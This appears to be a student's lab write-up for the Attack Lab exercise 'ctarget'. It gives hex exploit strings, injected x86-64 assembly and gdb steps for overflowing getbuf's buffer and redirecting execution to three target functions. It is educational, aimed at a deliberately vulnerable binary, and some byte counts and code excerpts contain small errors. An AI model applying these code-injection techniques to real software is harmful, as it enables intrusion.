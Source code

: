 **Preparation**

First, we need to disassemble ```./ctarget```. Type

```
objdump d ctarget > ctarget.d
```

Importantly, we find the in function "getbuf", it allocates the buffer zone with size ```0x28```.



**Touch 1**

It is the basic one. We only need to fill the buffer zone and change the ```ret``` address to touch 1 -- ```0x4017c0```.

Notice that our machine uses little endian to store bytes. So exploit 1 can be

```
00 11 22 33 44 55 66 77 88 99
00 11 22 33 44 55 66 77 88 99
00 11 22 33 44 55 66 77 88 99
00 11 22 33 44 55 66 77 88 99
c0 17 40 00 00 00 00 00 00 00
```



**Touch 2**

Other than change the ```ret``` address, this touch also requires its parameter stored in ```%rdi``` equal to cookie ```0x59b997fa```.

So we need to do these two steps. First, inject a code that set ```%rdi``` to ```0x59b997fa``` and return to touch 2. Second, change the ```ret``` address of "getbuf" to the code we injected.

To do the first step, we first need to understand how ```ret``` command works in detail.

Every time we call a function "callee", it allocates some memory in the stack and store the address of "caller". When the ```ret``` line is executed, it turn to the return address in the stack and jump to the address of "caller".

So we can write an assembly code "ci.s" that functions as the first step.

```assembly
movq    $0x59b997fa, %rdi
pushq   $0x4017ec
ret
```

Then we can get the byte representation of this assembly code. Type in terminal

```
gcc -c ci.s
objdump -d ci.o > ci.d
open ci.d
```

Then we get

```assembly
ci.o:     file format elf64-x86-64

Disassembly of section .text:

0000000000000000 <.text>:
   0:	48 c7 c7 fa 97 b9 59 	mov    $0x59b997fa,%rdi
   7:	68 ec 17 40 00       	push   $0x4017ec
   c:	c3                   	ret
```

Then the second step. We must know the address of the code we injected. Actually, these bytes are stored in the top of the stack allocated by "getbuf". So we only need to set a breakpoint right after the stack memory is allocated and see ```%rsp```. Type in gdb

```
(gdb) break *0x4017ac
(gdb) run -q
(gdb) print /x $rsp
$1 = 0x5561dc78
```

This is the address we need to inject to ```ret``` of "getbuf".

So exploit 2 can be

```
48 c7 c7 fa 97 b9 59
68 ec 17 40 00
c3
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
78 dc 61 55 00 00 00 00 00 00
```



**Touch 3**

First study the function "hexmatch".

```c
int hexmatch(unsigned cookie, char *s)
{
    char cbuf[105];
    char *t = cbuf+random()%100;
    sprintf(t,"%.8x",cookie);
    return strncmp(s,t)==0;
}
```

So we need to store the string representation of cookie "59b997fa" and pass it to ```(%rdi)```.

However, we cannot store it in the buffer zone of "getbuf" because it may be broken by the stack memory of "hexmatch". We need to store it in somwhere just superior to "getbuf", which can be function "test". Then "59b997fa" can be stored right below the ```ret``` address of "getbuf".

Works below are similar to touch 2.

```
(gdb) break *0x40196c
(gdb) run -q
(gdb) p /x $rsp
$1 = 0x5561dca8
```

So we write the assembly code and get the byte representation.

```assembly
ci.o:     file format elf64-x86-64

Disassembly of section .text:

0000000000000000 <.text>:
   0:	48 c7 c7 a8 dc 61 55 	mov    $0x5561dca8,%rdi
   7:	68 fa 18 40 00       	push   $0x4018fa
   c:	c3                   	ret
```

So exploit 3 can be

```
48 c7 c7 a8 dc 61 55
68 fa 18 40 00
c3
00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
78 dc 61 55 00 00 00 00
35 39 62 39 39 37 66 61
```